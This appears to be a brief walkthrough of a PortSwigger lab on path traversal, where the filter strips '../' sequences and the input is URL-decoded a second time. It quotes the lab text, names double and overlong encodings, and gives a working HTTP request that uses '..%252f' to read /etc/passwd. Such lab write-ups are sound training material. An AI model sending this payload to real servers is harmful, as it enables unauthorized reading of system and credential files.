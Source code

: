 # 4 - Traversal sequences stripped with superfluous URL-decode

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

 You might be able to use various non-standard encodings, such as `..%c0%af` or `..%252f`, to bypass the input filter.

![](../../.gitbook/assets/imagen%20%28635%29.png)

```text
GET /image?filename=..%252f..%252f..%252f/etc/passwd HTTP/1.1
```



